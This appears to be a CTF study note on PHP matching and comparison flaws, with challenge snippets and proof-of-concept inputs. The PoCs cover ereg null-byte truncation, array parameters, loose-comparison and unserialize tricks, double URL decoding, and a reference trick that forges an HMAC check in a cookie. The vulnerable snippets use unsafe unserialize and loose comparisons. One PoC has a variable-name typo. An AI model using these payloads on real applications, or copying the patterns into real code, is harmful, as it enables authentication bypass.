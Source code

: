 ```yaml
---
title: "php match or comapre"
date: 2016-03-13 15:28
---
```


# match

## ereg

> int ereg() 返回整数类型

* example

```php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
```

* poc 1

```
url: ...?password=1e9%00*-*
```

此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

```
url: ...?password[]=s
``` 

**传入数组**

* ereg 返回** NULL** ，NULL !== FALSE is true
* strpos 处理数组，也返回 ** NULL **
* strlen 处理数组，同样返回 **NULL**

**比较**

* null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
* array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

```php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
```

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

```php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
```

## urldecode

> string urldecode() 返回字符串类型 

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用

$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

```php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
```

## reference

* example

```php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
    $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))    // hint auth is array
    return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
    return false;
```

* poc

```php
$a = array("username" => "dragon", "password" => true, "hmac_t" => "0"); 
$a["hmac"] = &$a["hmac_t"]; // key point ****************
$a["hmac_t"] = 1; 
echo $a["hmac"]."\n";
echo urlencode(serialize($a)) . "\n";
```

1.**PHP 是可以直接取 Reference **

则 === 的 strict comparison 就 always true 了...因为都是一个** Object **

2.cookie 提交 auth 为 urlencode(serialize($a)) 或 serialize($a) 均可 
